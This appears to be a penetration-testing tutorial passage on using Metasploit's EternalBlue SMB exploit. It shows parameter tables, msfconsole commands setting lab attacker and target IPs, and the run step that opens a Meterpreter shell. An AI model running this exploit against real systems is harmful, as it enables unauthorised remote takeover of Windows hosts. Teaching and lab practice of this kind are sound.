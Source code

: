 ***

## <mark style="color:red;">Using Payloads</mark>

| **Parameter** | **Description**                                                                        |
| ------------- | -------------------------------------------------------------------------------------- |
| `RHOSTS`      | The IP address of the remote host, the target machine.                                 |
| `RPORT`       | Does not require a change, just a check that we are on port 445, where SMB is running. |

For the payload part, we will need to set the following:

| **Parameter** | **Description**                                                              |
| ------------- | ---------------------------------------------------------------------------- |
| `LHOST`       | The host's IP address, the attacker's machine.                               |
| `LPORT`       | Does not require a change, just a check that the port is not already in use. |

<mark style="color:green;">**MSF - Exploit and Payload Configuration**</mark>

{% code fullWidth="true" %}
```shell-session
msf6 exploit(**windows/smb/ms17_010_eternalblue**) > ifconfig

**[\*]** exec: ifconfig

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST> mtu 1500

<SNIP>

inet 10.10.14.15 netmask 255.255.254.0 destination 10.10.14.15

<SNIP>


msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.15

LHOST => 10.10.14.15


msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40
```
{% endcode %}

Then, we can run the exploit and see what it returns. Check out the differences in the output below:

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

The prompt is not a Windows command-line one but a `Meterpreter` prompt. The `whoami` command, typically used for Windows, does not work here. Instead, we can use the Linux equivalent of `getuid`. Exploring the `help` menu gives us further insight into what Meterpreter payloads are capable of.

